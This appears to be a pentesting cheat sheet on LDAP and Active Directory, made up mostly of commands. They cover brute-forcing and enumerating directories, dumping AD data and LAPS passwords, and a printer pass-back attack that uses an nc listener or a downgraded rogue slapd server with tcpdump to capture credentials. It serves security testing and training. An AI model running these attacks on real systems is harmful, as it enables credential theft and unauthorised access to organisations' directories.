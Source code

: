 # LDAP (Lightweight Directory Access Protocol) Pentesting - 389, 636, 3268, 3269/TCP

## Enumeration
```sh
# Nmap
nmap --script ldap-brute --script-args ldap.base='"cn=users,dc=cqure,dc=net"' -p 389 <target-ip>
nmap --script ldap-search -p 389 <target-ip>
nmap --script ldap-* -p 389 <target-ip>
nmap --script "ldap* and not brute" -p 389 <target-ip>

# NetExec - nxc
# -k: Use Kerberos authentication
nxc ldap <target-ip> -u usernames.txt -k
# --trusted-for-delegation: Enumerate computers and users with the flag `TRUSTED_FOR_DELEGATION`
# reference: https://learn.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties#property-flag-descriptions
nxc ldap <target-ip> -u username -p password --trusted-for-delegation

# Users
ldapsearch -x -H ldap://10.0.0.1 -D "username@example.local" -w "password" -b "dc=example,dc=local" "(objectclass=user)" sAMAccountName memberOf
# Groups
ldapsearch -x -H ldap://10.0.0.1 -D "username@example.local" -w "password" -b "dc=example,dc=local" "(objectClass=group)" name member
```

## Dump Active Directory Information
If you have the credential, you can get the Active Directory information via LDAP.
```sh
# --no-html: Disable html output
# --no-grep: Disable greppable output
# -o: Output dir
ldapdomaindump -u 'DOMAIN\username' -p password <target-ip> --no-html --no-grep -o dumped
```

## Connect
### AD CS (Active Directory Certificate Services)
```sh
nxc ldap <target-ip> -d 'domain' -u 'username' -p 'password' -M adcs
```

### LAPS (Local Administrator Password Solution)
```sh
nxc ldap <target-ip> -d 'domain' -u 'username' -p 'password' --kdcHost <target-ip> -M laps
```

## Pass-Back Attack
Attack against the network devices such as printers.  
For example, access http://printer.sub.example.com/settings.aspx

Open a listener for connecting back to your local machine.
```sh
nc -vp 1389
```
In your browser, test LDAP settings where you input username and password.

### Host Rogue LDAP Server
If we cannot connect back in local machine by netcat, we need to create a rogue LDAP server.  

Install the dependencies at first.
```sh
sudo apt update
sudo apt install -y slapd ldap-utils
sudo systemctl enable slapd
```

Configure your own rogue LDAP server by executing the following command.
```sh
sudo dpkg-reconfigure -p low slapd

# ---------------------------------------------------

# in configuration dialog

1. Omit OpenLDAP server configuration: No
2. DNS domain name: <target-domain>
3. Organization name: <target-domain>
4. Administrator password: <arbitrary-password>
5. Database backend to use: MDB
6. Do you want the database to be removed when slapd is purged?: No
7. Move old database?: Yes
```

We need to make your rogue LDAP server to be vulnerable by downgrading the supported authentication mechanism.  

Create the config file named "config.ldif".
```txt
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

Now we can use the config file to patch the LDAP server.
```sh
# -Y: SASL mechanism
# -H: URI
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./config.ldif
sudo service slapd restart
```

We can verify that the rogue LDAP server’s configuration has been applied:
```sh
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```

For capturing the credentials, run the following command.
```sh
sudo tcpdump -SX -i <target-interface-like-eth0> tcp port 389
```

In browser, test the printer settings and capture the credentials via tcpdump.
